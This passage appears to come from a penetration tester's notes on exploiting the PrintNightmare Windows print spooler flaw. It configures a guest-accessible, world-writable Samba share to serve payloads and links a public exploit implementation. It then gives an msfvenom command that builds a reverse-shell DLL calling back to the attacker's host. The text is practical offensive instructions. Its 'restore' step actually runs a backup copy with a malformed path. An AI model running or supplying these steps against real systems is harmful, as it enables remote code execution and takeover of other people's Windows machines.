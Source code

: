 Overwite the file with the following content

```bash
[global]
    map to guest = Bad User
    server role = standalone server
    usershare allow guests = yes
    idmap config * : backend = tdb
    smb ports = 445

[smb]
    comment = Samba
    path = /home/user/Documents/printnightmare/payloads/
    guest ok = yes
    read only = no
    browsable = yes
    force user = nobody
```

Ensure the files are owned by nobody

```bash
sudo chown nobody:user -R /home/user/Documents/printnightmare/payloads/
sudo chmod -R 777 /home/user/Documents/printnightmare/payloads/
```

Restart the smbd service

```bash
sudo service smbd restart
```

{{% notice warning %}}
Don't forget to restore the SMB config and disable the service :)
{{% /notice %}}

```bash
sudo cp /etc/samba/smb.conf etc/samba/smb.conf.bak
sudo service smbd stop
```

## Outflanks implementation

<https://github.com/outflanknl/PrintNightmare>

Did not test this yet. But seems 'better' then the cube0x0 implementation

## Create DLL

MSVenom if you think AV is not a problem. Otherwise build something custom.

### MSFVenom

```bash
msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=<YOUR IP> LPORT=<PORT TO LISTEN> -f dll -o /home/user/Documents/printnightmare/payloads/rev.dll
```
